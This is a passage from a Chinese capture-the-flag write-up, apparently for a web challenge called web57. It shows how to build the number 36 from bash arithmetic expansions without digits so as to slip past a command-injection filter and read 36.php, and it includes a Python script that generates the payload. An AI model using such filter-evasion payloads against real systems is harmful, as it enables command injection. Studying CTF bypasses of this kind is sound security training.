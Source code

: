 ![image-20220317210103212](https://img-blog.csdnimg.cn/img_convert/5d0a189864b60fed0efa71988d1409f5.png)

然后抓包![image-20220317210115562](https://img-blog.csdnimg.cn/img_convert/d42c31629e42fd43a2f4a2f25dd8226a.png)

暂时没有找到解决办法！

# web57

![image-20220317210950317](https://img-blog.csdnimg.cn/img_convert/6b8776aa23c748db493c184e3d4be008.png)

里面有个提示flag就在36.php里，

已知



```bash
┌──(amateur㉿kali)-[~]
└─$ echo $((~$(()))) 
-1                                                   
┌──(amateur㉿kali)-[~]
└─$ echo $((~$(($((~$(())))+$((~$(())))))))            
1                                                     
┌──(amateur㉿kali)-[~]
└─$ echo $((~$(($((~$(())))+$((~$(())))+$((~$(())))))))
2
```

所以访问36.php只需要将里面的元素复制到36个，编写python脚本生成，上传得到flag

------

python脚本：



```python
s1 = "$((~$(("
s2 = ""
lils2 = "$((~$(())))"
s3 = "))))"

for i in range(37):
    s2 += lils2

print(s1+s2+s3)
```

输出：$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))

![image-20220317211444172](https://img-blog.csdnimg.cn/img_convert/72f1c7418e57fbdada323e88285b038e.png)
